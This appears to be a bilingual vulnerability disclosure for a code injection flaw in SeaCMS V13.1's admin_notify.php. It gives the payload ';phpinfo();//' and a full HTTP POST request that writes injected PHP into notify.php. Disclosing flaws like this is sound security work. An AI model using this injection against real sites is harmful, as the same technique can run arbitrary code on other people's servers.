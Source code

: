 # SeaCMS V13.1 code injection
*SeaCMS V13.1 代码注入*
## Environment
*环境*

V13
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103209.png)

https://www.seacms.net/
## Analysis
*分析*

Injecting malicious code into the notification module of the member message notification module in the backend user module, the unsafe handling of the "notify" variable in the file "admin_notify. php" resulted in the injection of code.

*在后端用户模块的成员消息通知模块的通知模块中注入恶意代码，对文件“admin_notify.php”中的“notify”变量的不安全处理导致代码注入*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103256.png)
## Verify
*证明*

Backend: User ->Member Message Notification ->Notification

*后台:用户->会员消息通知->通知*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103505.png)
```php
;phpinfo();//
```
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103543.png)
Successfully injected code

*成功注入代码*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103552.png)

```http
POST /d3kdjs/admin_notify.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://localhost
Connection: close
Referer: http://localhost/d3kdjs/admin_notify.php
Cookie: iconSize=16x16; jenkins-timestamper-offset=-28800000; PHPSESSID=fv6b5117hu9kv7fbepjs9ie1n2; XDEBUG_SESSION=PHPSTORM; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

notify1=";phpinfo();//&notify2=&notify3=
```
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103842.png)
Malicious code successfully written to notify.php file.

*恶意代码成功写入notify.php文件中*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103740.png)